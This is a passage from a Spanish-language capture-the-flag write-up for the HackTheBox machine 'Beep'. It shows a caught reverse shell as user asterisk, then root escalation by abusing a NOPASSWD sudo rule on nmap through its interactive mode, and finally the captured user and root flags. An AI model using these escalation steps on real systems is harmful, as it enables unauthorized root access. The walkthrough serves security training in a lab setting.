 Obtenemos una shell con el usuario `asterisk`.

```bash
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.7] 60412
whoami
asterisk
```

## ESCALADA DE PRIVILEGIOS

Una vez que tenemos acceso a la máquina, realizamos el escalamiento de privilegios, en este caso, revisando los permisos a nivel de `sudo`.

```bash
sudo -l
```
```bash
#Resultados
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /sbin/service
```

_NOTA: Intenta realizar la escalada por cualquiera de estos 3 permisos a modo de ejercicio._

Se identifica que es posible ejecutar el comando `/usr/bin/nmap` con privilegios, por lo que vamos a hacer uso del escalamiento de [GTFObins](https://gtfobins.github.io/gtfobins/nmap/) obteniendo acceso al usuario `root`.

```bash
sudo nmap --interactive
```
```bash
#Resultados
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
```

## FLAGS

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` y `root` 

```bash
#USER
find / -name user.txt 2>/dev/null | xargs head -c 10; echo
52143a2a96
```

```bash
#ROOT
find / -name root.txt 2>/dev/null | xargs head -c 10; echo
a896454076
```

¡Hemos logrado completar la máquina `beep` de HackTheBox!

<p style="text-align: center;">
<img src="/assets/images/beep/08-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.
